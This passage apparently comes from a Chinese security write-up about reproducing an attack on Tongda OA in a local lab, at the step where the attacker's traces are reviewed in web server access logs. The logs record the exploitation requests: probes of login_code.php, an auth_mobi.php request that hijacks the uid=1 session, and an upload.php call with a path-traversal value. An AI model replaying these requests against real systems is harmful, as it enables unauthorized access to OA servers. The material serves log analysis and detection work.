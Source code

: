 Step 4：日志记录查看  
[![image.png](assets/1698894058-9c823690681d78c05d85dfb965024f89.png)](https://storage.tttang.com/media/attachment/2022/11/15/d2b29f31-0076-4d2e-bc32-e5fa70385fc9.png)

[![image.png](assets/1698894058-339d21a25c30e2a2ef5c1ac29a6daff6.png)](https://storage.tttang.com/media/attachment/2022/11/15/0b5604a7-52cb-4844-84b3-6edbf3c8a0dd.png)

简易记录裁取如下 (由于这里我们再现环境时使用的是本地构建的环境，所以攻击 IP 地址源自我们本地的局域网地址，但是整个流程与云上搭建一样，这里只不过就是少了一个域名注册的点，而这也是一个坑点)：

```plain
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET / HTTP/1.1"200 4140 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET /static/images/tongda.ico HTTP/1.1"200 894 "http://oa.aaa.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```